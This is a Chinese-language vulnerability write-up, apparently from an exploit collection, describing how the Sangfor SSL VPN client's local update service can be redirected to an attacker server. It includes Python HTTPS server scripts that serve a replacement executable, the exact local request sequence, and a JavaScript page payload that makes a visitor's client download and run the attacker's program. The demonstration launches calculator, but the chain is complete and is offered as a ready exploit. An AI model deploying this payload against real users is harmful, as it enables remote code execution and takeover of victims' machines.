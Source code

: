 ```yaml
---
title: 深信服 SSL VPN 客户端远程文件下载
date: 2021-09-23 23:55:51
tags: PeiQi文库
categories:
 - Web应用漏洞
 - 深信服
---
```


# 深信服 SSL VPN 客户端远程文件下载

## 漏洞描述

深信服 SSL VPN 客户端存在远程文件下载，且文件可控下载后可执行

## 漏洞影响

> [!NOTE]
>
> 深信服 SSL VPN

## 漏洞复现

百度"intitle: 欢迎使用SSL VPN"，随便找一个地方下载VPN客户端下载安装：

![](/img/20210924013600237153.png)

安装完之后访问VPN的页面，发现VPN会自动下载组件更新：

![](/img/20210924013601397586.png)

这些请求均为GET请求并附带着一些参数，我们把它一一列下来：

![](/img/20210924013602964668.png)

本地来看一下这个`54530`端口对应的进程是什么：

![](/img/20210924013603356692.png)

发现这个端口是ECAgent.exe开启的，寻找到对应进程文件所在位置：

![](/img/20210924013604845093.png)

确认这是XXX SSLVPN的程序，那么就可以将两者联系到一起，访问VPN登录首页会触发对`127.0.0.1`的访问从而引起VPN进行组件更新。

通过以上的分析我们猜测了整个大致流程，但我们设想一下如果我们可以控制本地的更新指向我们的服务器，然后将更新的组件内容替换成恶意程序，当程序启动的时候就启动了恶意程序，这样我们可以拿到安装VPN客户端的使用者PC权限。

再回到之前的本地链接列表，根据对英文的理解，参数op的值应该为其具体对应要执行的动作：

```
InitECAgent -> 初始化
GetEncryptKey -> 获取加密密钥
DoConfigure -> 配置
CheckReLogin -> 检查重新登录
CheckProxySetting -> 检查代理设置
UpdateControls -> 更新控制
DoQueryService -> 查询服务
```

第一个初始化的请求存在可控参数arg1：

```
https://127.0.0.1:54530/ECAgent/?op=InitECAgent&arg1=vpn.xxx.edu.cn%20443&callback=EA_cb10000
```

参数`arg1=vpn.xxx.edu.cn%20443`，对应值也就是HOST+空格+端口的格式，看到这里基本上就会有一个思路，客户端更新控件是不是根据这个指定值向其发送请求更新的呢？我们可以只替换第一个初始化请求的arg1参数为`172.20.10.2 8000`，然后本地搭建一个HTTP服务：

```
python -m SimpleHTTPServer
```

其他的请求原封不动，依次请求一遍那一份URL

服务端成功收到请求，但是却出现了错误的提示：

![](/img/20210924013605370566.png)

首先我们已经验证了自己的猜想，更新地址是自己可控的，客户端确实会向我们指定的服务端发送请求，但由于出现了错误我们不知道客户端访问了哪个文件，也不知道访问文件之后做了什么动作。

现在要做的就是搭建一个客户端可以正常访问的请求，通过这个错误大致可以知道，我搭建的服务端协议和客户端请求使用的协议不一致，本机抓个包发现客户端请求的是 HTTPS 协议，这就需要搭建一个 HTTPS 服务了。

如下脚本基于Python库建立一个 HTTPS 服务：

```python
# openssl req -new -x509 -keyout server.pem -out server.pem -days 365 -nodes

import BaseHTTPServer, SimpleHTTPServer
import ssl

httpd = BaseHTTPServer.HTTPServer(('0.0.0.0', 8000), SimpleHTTPServer.SimpleHTTPRequestHandler)
httpd.socket = ssl.wrap_socket (httpd.socket, certfile='./server.pem', server_side=True)
httpd.serve_forever()
```

搭建起一个 HTTPS 环境后再次复现如上请求，服务端收到日志：

![](/img/20210924013606834665.png)

可以看见客户端会访问两个文件：

```
/com/WindowsModule.xml
/com/win/XXXUD.exe
```

先不管xml文件是怎么样的，可执行文件(exe)是需要重视的，但是这里通过提示可以看出客户端发出的请求是POST请求，但我们所写的Python脚本建立的HTTPS服务并不支持POST方法，我们需要重写一下Handler：

```python
import BaseHTTPServer
import SimpleHTTPServer
import cgi
import ssl

class ServerHandler(SimpleHTTPServer.SimpleHTTPRequestHandler):
    def do_POST(self):
        form = cgi.FieldStorage()
        SimpleHTTPServer.SimpleHTTPRequestHandler.do_GET(self)

Handler = ServerHandler

httpd = BaseHTTPServer.HTTPServer(('0.0.0.0', 8000), Handler)
httpd.socket = ssl.wrap_socket (httpd.socket, certfile='./server.pem', server_side=True)
httpd.serve_forever()
```

最终如上脚本支持`POST`方法，当时用`POST`方法请求时即返回文件内容。

最后，拖一个`calc.exe`（计算器）到HTTPS网站根目录下的`/com/win/XXXUD.exe`。

依次请求（**经过多次复现发现，这三个请求才是重点的，其他的可以忽略**）：

```
https://127.0.0.1:54530/ECAgent/?op=InitECAgent&arg1=172.20.10.2 8000&callback=EA_cb10000

https://127.0.0.1:54530/ECAgent/?op=CheckReLogin&arg1=3408a894633162c62188f98e92a221967dccfa5aafbd79b576714b4d1c392a4ad4b220d698efcd939c3b1b37467023e9380ee3abf0e492ee2efc736de757b80e973fe4c7d8af1af211a3f7ff3433cd9de975c76583efe7251dd1c0656f4384832998630359b65beb131cd8d287712462fa1b9e9acbc96dcc678b84cd57178c1a&token=50065256e83ff1bb9e01757d0d22b669&callback=EA_cb10003

https://127.0.0.1:54530/ECAgent/?op=UpdateControls&arg1=BEFORELOGIN&callback=EA_cb10005
```

会发现客户端请求之后，将文件下载到本地并启动该程序，成功弹出计算器：

![](/img/20210924013607046741.png)

Exploit很简单，当用户打开某个页面时访问那三个本地请求即可，这里使用JavaScript的fetch去实现即可：

```javascript
<script>
    // 服务器IP和端口
    var ip = "172.20.10.2";
    var port = "4443";
    var poc_list = ["https://127.0.0.1:54530/ECAgent/?op=InitECAgent&arg1=" + ip + " " + port + "&Guid=&callback=EA_cb10000", "https://127.0.0.1:54530/ECAgent/?op=CheckReLogin&arg1=3616f5b2ad1fe9b62b3d34509daa11259782919108eb2bebe59d64c808c3a079c6f6ae36b6ff1d63cb8067d08a9db72b70d912bfdb8bdc6ca18140cfa0ffb9e88b85acebf4bf544f71ff0fc662b9b95a8e939928b847018c106e1a96686e1ec3274a89ae0b8f77fc3d53a5ce0f1eec9a0ce8a5e4e2c927331cd94a67d5360a3e&token=c4202416e283e60809d3b1e04e4bae6b&Guid=&callback=EA_cb10003", "https://127.0.0.1:54530/ECAgent/?op=UpdateControls&arg1=BEFORELOGIN&Guid=&callback=EA_cb10005"];
    for(var i=0; i<poc_list.length; i++){
        setTimeout(fetch(poc_list[i]),"2000");
        
    }
</script>
```

其次就是需要一个HTTPS服务端的Python脚本，并且在脚本根目录下的`/com/win/`目录下有一个`XXXUD.exe`文件。

![](/img/20210924013607310524.png)

## 参考文章

https://mp.weixin.qq.com/s/XbsxziIFKx8VhGd-pv0Ghg